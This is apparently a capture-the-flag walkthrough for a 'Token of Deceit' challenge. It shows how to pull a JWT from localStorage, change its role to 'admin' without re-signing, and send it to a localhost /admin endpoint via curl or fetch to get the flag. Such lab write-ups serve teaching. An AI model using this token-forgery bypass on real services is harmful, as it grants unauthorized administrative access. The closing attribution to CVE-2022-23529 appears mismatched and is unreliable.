 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
  •	Create an account to be automatically assigned the "user" role.

2. Login
  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token:

     **localStorage.getItem('token');**
   
    •	You’ll see a token with three parts, each separated by a period (.).
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin

b. Using the Browser Console:
  •	Run this JavaScript:
  
    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
a. The server will decode the manipulated token and grant admin access.
b. The server will respond with the flag: {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
